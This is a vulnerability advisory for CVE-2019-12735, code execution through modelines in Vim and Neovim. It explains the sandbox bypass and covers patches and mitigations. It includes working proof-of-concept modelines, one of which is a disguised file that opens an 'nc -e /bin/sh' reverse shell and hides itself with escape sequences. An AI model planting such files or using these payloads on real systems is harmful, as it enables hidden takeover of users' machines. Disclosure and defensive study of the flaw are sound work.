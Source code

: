 *by Arminius ([@rawsec](https://twitter.com/rawsec))*

Vim/Neovim Arbitrary Code Execution via Modelines
=================================================

```
Product: Vim < 8.1.1365, Neovim < 0.3.6
Type:    Arbitrary Code Execution
CVE:     CVE-2019-12735
Date:    2019-06-04
Author:  Arminius (@rawsec)
```

Summary
-------

Vim before 8.1.1365 and Neovim before 0.3.6 are vulnerable to arbitrary code
execution via modelines by opening a specially crafted text file.


Proof of concept
----------------

- Create [`poc.txt`](../data/2019-06-04_ace-vim-neovim/poc.txt):

      :!uname -a||" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=0:fdt="

- Ensure that the modeline option has not been disabled (`:set modeline`).

- Open the file in Vim:

      $ vim poc.txt

- The system will execute `uname -a`.

Proof of concept 2 (reverse shell)
----------------------------------

This PoC outlines a real-life attack approach in which a reverse shell
is launched once the user opens the file. To conceal the attack, the file will
be immediately rewritten when opened. Also, the PoC uses terminal escape
sequences to hide the modeline when the content is printed with `cat`. (`cat
-v` reveals the actual content.)

[`shell.txt`](../data/2019-06-04_ace-vim-neovim/shell.txt):

    \x1b[?7l\x1bSNothing here.\x1b:silent! w | call system(\'nohup nc 127.0.0.1 9999 -e /bin/sh &\') | redraw! | file | silent! # " vim: set fen fdm=expr fde=assert_fails(\'set\\ fde=x\\ \\|\\ source\\!\\ \\%\') fdl=0: \x16\x1b[1G\x16\x1b[KNothing here."\x16\x1b[D \n

Demo (victim left, attacker right):

![Reverse shell demo](https://i.imgur.com/8w4tteX.gif)

Details
-------

The modeline feature allows to specify custom editor options near the start or
end of a file. This feature is enabled by default and applied to all file types,
including plain `.txt`. A typical modeline:

    /* vim: set textwidth=80 tabstop=8: */

For security reasons, only a subset of options is permitted in modelines, and
if the option value contains an expression, it is executed in a sandbox: [[1]]

    No other commands than "set" are supported, for security reasons (somebody
    might create a Trojan horse text file with modelines).  And not all options
    can be set.  For some options a flag is set, so that when it's used the
    |sandbox| is effective.

The sandbox is meant to prevent side effects: [[2]]

    The 'foldexpr', 'formatexpr', 'includeexpr', 'indentexpr', 'statusline' and
    'foldtext' options may be evaluated in a sandbox.  This means that you are
    protected from these expressions having nasty side effects.  This gives some
    safety for when these options are set from a modeline.

However, the `:source!` command (with the bang [`!`] modifier) can be used to
bypass the sandbox. It reads and executes commands from a given file as if
*typed manually*, running them after the sandbox has been left. [[3]]

    :so[urce]! {file}       Read Vim commands from {file}.  These are commands
                            that are executed from Normal mode, like you type
                            them.

Thus, one can trivially construct a modeline that runs code outside the sandbox:

    # vim: set foldexpr=execute('\:source! some_file'):

An additional step is needed for Neovim which blacklists `execute()`: [[4]]

    execute({command} [, {silent}])                         *execute()*
                    Execute {command} and capture its output.
                    [...]
                    This function is not available in the |sandbox|.

Here, `assert_fails()` can be used instead, which takes a `{cmd}` argument, too: [[5]]

    assert_fails({cmd} [, {error} [, {msg}]])               *assert_fails()*
                    Run {cmd} and add an error message to |v:errors| if it does
                    NOT produce an error.

The following modeline utilizes a fold expression to run `source!  %` to
execute the current file, which in turn executes `uname -a || "(garbage)"` as a
shell command:

    :!uname -a||" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=0:fdt="

Additionally, the Neovim-only function `nvim_input()` is vulnerable to the same
approach via e.g.:

     vi:fen:fdm=expr:fde=nvim_input("\:terminal\ uname\ -a"):fdl=0

(In the past, other modeline-related vulnerabilities have been patched in Vim - see [CVE-2002-1377](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-1377), [CVE-2016-1248](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-1248).)

Patches
-------

- [Vim patch 8.1.1365](https://github.com/vim/vim/commit/5357552)
- [Neovim patch](https://github.com/neovim/neovim/pull/10082) (released in [v0.3.6](https://github.com/neovim/neovim/releases/tag/v0.3.6))

Beyond patching, it's recommended to disable modelines in the vimrc (`set
nomodeline`), to use the [securemodelines](https://github.com/ciaranm/securemodelines/)
plugin, or to disable `modelineexpr` (since patch 8.1.1366, Vim-only) to disallow
expressions in modelines.

Check if you have modelines enabled by opening vim and entering

```:set modeline?```

If vim returns ```nomodeline```, you are not vulnerable.  If you are vulnerable
or want to ensure your security with this issue, add these lines to your vimrc:

```
:set modelines=0
:set nomodeline
```

Timeline
--------

    - 2019-05-22 Vim and Neovim maintainers notified
    - 2019-05-23 Vim patch released
    - 2019-05-29 Neovim patch released
    - 2019-06-05 CVE ID CVE-2019-12735 assigned

Also see description of [CVE-2019-12735](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-12735).

[1]: https://github.com/vim/vim/blob/5c017b2de28d19dfa4af58b8973e32f31bb1477e/runtime/doc/options.txt#L582
[2]: https://github.com/vim/vim/blob/5c017b2de28d19dfa4af58b8973e32f31bb1477e/runtime/doc/eval.txt#L13050
[3]: https://github.com/vim/vim/blob/5c017b2de28d19dfa4af58b8973e32f31bb1477e/runtime/doc/repeat.txt#L182
[4]: https://github.com/neovim/neovim/blob/1060bfd0338253107deaac346e362a9feab32068/runtime/doc/eval.txt#L3247
[5]: https://github.com/neovim/neovim/blob/1060bfd0338253107deaac346e362a9feab32068/runtime/doc/eval.txt#L2494
[6]: https://github.com/vim/vim/releases/tag/v8.1.1365
[7]: https://github.com/neovim/neovim/releases/tag/v0.3.6
